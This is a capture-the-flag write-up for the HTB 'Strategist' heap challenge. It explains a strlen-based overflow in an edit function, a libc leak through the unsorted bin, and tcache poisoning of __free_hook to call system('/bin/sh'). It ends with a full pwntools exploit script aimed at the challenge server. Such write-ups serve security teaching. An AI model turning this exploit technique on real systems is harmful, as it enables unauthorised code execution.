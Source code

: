 ```yaml
---
title: Strategist
date: 2025-03-26:00:19+03:00
description: Writeup for Strategist [HTB Cyber Apocalypse 2025]
author: PineBel
tags:
- pwn 
- heap
draft: false
---
```


## Challenge description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Intuition

It looks like a classic heap challenge. We can control the size of malloc and write to that chunk. We can also remove (free) that chunk and edit its contents. We also get the libc version which is: `glibc 2.27`. 
I used `patchelf` to modify my binary to have the correct libc and ld.

**Vulnerability**: When editing a chunk, the edit function computes the length with strlen, which means that we can overwrite the size field of the next chunk if we make the current chunk full.

```C
    __nbytes = strlen((char *)mem_ptr[input_idx]);
    read(0,(void *)mem_ptr[input_idx],__nbytes);
```

Example (allocate two chunks of 24, fill the first one up):
```
                                    0x0000000000000021	........!....... <--- first chunk
0x555555a01670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555555a01680	0x0a61616161616161	0x0000000000000021	aaaaaaa.!....... <--- second chunk
0x555555a01690	0x0000000a42424242	0x0000000000000000	BBBB............
0x555555a016a0	0x0000000000000000	0x0000000000020961	........a.......	 <-- Top chunk
```

Now if we edit the first chunk, strlen() will also include the second chunks size, so we can overwrite the size if we want.

So the strategy for this challenge would be to leak a libc address and do tcache poisoning to the \_\_free\_hook (since we have 2.27 we can do that) 
## Solution

#### Leaking libc

1. Create a chunk that gets in the Unsorted bin (bc it has fwd ptr and bck ptr towards the main arena).
2. Guard the Unsorted bin chunk with a smaller chunk to prevent merging with the top.


After we allocate a large chuck and a smaller chunk + free the large chunk + allocate large again to get leak:
```
0x555574953660	0x0000000000000000	0x0000000000000431	........1.......
0x555574953670	0x00007ab6a23ebc61	0x00007ab6a23ebca0	a.>..z....>..z..
0x555574953680	0x0000000000000000	0x0000000000000000	................
```


So after the leak it's just a simple tcache poisoning.
Steps for tcache poisoning:

1. Allocate three chunks that will fit in the tcache.

```
0x55555d52e660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d52e670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e690	0x6161616161616161	0x0000000000000031	aaaaaaaa1....... <--- C2
0x55555d52e6a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x55555d52e6d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6f0	0x6363636363636363
```

2. Use edit vuln to overwrite C2 size. This will allow us to overwrite C3 later.

```
0x555567480660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x555567480670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 (NEW SIZE)
0x5555674806a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x5555674806d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806f0	0x6363636363636363
```

3. Free C2 and C3 

```
                                    0x0000000000000031	........1....... <--- C1
0x555582d1f670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 
0x555582d1f6a0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x60][0/1]
0x555582d1f6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x555582d1f6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x555582d1f6d0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x30][0/1]
0x555582d1f6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x555582d1f6f0	0x6363636363636363
```

4. Allocate a chunk that fits in the 0x60 chunk size => we can overwrite C3 with the free hook

```
0x55555d4f7660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d4f7670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2
0x55555d4f76a0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76b0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76c0	0x6363636363636363	0x3434343434343434	cccccccc44444444 <--- C3 overwritten  (6d0 -> __free_hook ptr)
0x55555d4f76d0	0x00007f2d071ed8e8	0x000055555d4f7010	....-....pO]UU..	 <-- tcachebins[0x30][0/1]
0x55555d4f76e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76f0	0x6363636363636363

tcachebins
0x30 [  1]: 0x55555d4f76d0 —▸ 0x7f2d071ed8e8 (__free_hook) 
```

5. Allocate a chunk that will contain the args for system.
6. Allocate a chunk with a ptr to sytem.

```
x/1xg &__free_hook
0x78ed30ded8e8 <__free_hook>:	0x000078ed30a4f550
pwndbg> x 0x000078ed30a4f550
0x78ed30a4f550 <system>:	0xfa66e90b74ff8548
```

7. Call free on the chunk that has /bin/sh


Solve:
```py
from pwn import *
import time

#context.binary = bin = ELF("./strategist")
libc   = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')
#target = process([ld.path,bin.path],env={"LD_PRELOAD":libc.path})
target = remote("94.237.61.57",45450)


def allocate(size, p):
    target.sendlineafter(b'> ', b'1')
    target.sendlineafter(b'> ', str(size).encode())
    target.sendafter(b'> ', p)

def free(idx):
     target.sendlineafter(b'> ', b'4')
     target.sendlineafter(b'> ', str(idx).encode())

def show(idx):
    target.sendlineafter(b'> ', b'2')
    target.sendlineafter(b'> ', str(idx).encode())
    target.recvuntil(f'Plan [{idx}]: ')
    return target.recvline()[:-1]

def edit(idx,p):
    target.sendlineafter(b'> ', b'3')
    target.sendlineafter(b'> ', str(idx).encode())
    target.sendafter(b'> ', p)


allocate(0x420,b"a") # put in unsorted bin because it has 2 ptrs that we will leak 
allocate(0x100,b"b") # put tcache so that we don't merge with top chunk when we free

free(0)
free(1)

allocate(0x420,b"a") # this is the chunk with leak
leak = u64(show(0).ljust(8,b'\x00'))
leak = leak - 0x3ebc61
libc.address = leak
print(f"Leak:{leak:#010x}")
#print(hex(libc.sym.__free_hook))
free(0)


### Tcache poisoning

tcache_size = 0x28

allocate(tcache_size, tcache_size*b"a") # full chunk => leads to overflow
allocate(tcache_size, tcache_size*b"b") 
allocate(tcache_size, tcache_size*b"c")


edit(0,tcache_size*b"a"+p8(0x61)) # edit chunk so that we overwrite chunk size 
free(1)
free(2)

allocate(0x50,tcache_size*b"c"+b"4"*8+p64(libc.sym.__free_hook)) # this chunk will go into the one that overflows the second one (fwd_ptr), the second size actually doesn't matters (the 4)

allocate(tcache_size, b"/bin/sh\x00"+p64(0x0)) # prepare arg for system
allocate(tcache_size, p64(libc.sym.system)) # write system in free hook
#gdb.attach(target)
#pause()

print(show(2))
free(2) # call system with /bin/sh arg
target.interactive()
```




